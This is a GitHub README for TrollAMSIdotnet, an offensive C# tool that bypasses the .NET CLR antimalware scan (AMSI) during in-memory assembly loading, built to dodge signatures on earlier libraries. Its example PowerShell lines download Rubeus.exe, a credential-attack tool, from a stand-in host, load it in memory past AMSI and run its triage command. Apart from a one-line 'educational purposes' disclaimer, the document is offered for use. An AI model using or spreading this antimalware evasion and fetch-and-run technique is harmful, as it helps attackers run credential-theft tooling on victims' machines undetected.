 # TrollAMSIdotnet
TrollAMSI only bypasses powershell's amsi and not the CLR amsi during Assembly.Load(). Was looking for a troll way to do this but seems like already done in the most epic way possible: https://github.com/G0ldenGunSec/SharpTransactedLoad. Read his blog for full details on his ingenious approach to bypassing amsi. G0ldenGunSec's implementation uses easyhook.dll for hooking which inturn requires cody fostura. Due to the proliferated use of both libraries in offensive security projects, they have been signaturized. Decided to re-write the hooking aspect but then realised there's a simple library already created for that: https://github.com/liulilittle/NetHook. Ended up just copy pasting code to create a single .cs file for convenience.


**Note:** Only .cs version released, you can just compile it to an assembly and load it (refer to trollAMSI) 
  
## Usage 
```
$asm = [TrollAMSIdotnet]::Load(<BYTE_ARRAY_DOWNLOAD>,<ASSEMBLY_NAME>) 
[string[]]$args = "<ARGUMENT_TO_ASSEMBLY>", "<ARGUMENT_TO_ASSEMBLY>"
[TrollAMSIdotnet]::Invoke($asm,$args)
```

## Example 
```
$asm = [TrollAMSIdotnet]::Load((New-Object System.Net.WebClient).DownloadData("https://troll.com/Rubeus.exe"),"Rubeus.exe") 
[string[]]$myargs = "triage", "/consoleoutfile:C:\FILE.txt"
[TrollAMSIdotnet]::Invoke($asm,$myargs)
```


## Disclaimer
Should only be used for educational purposes!
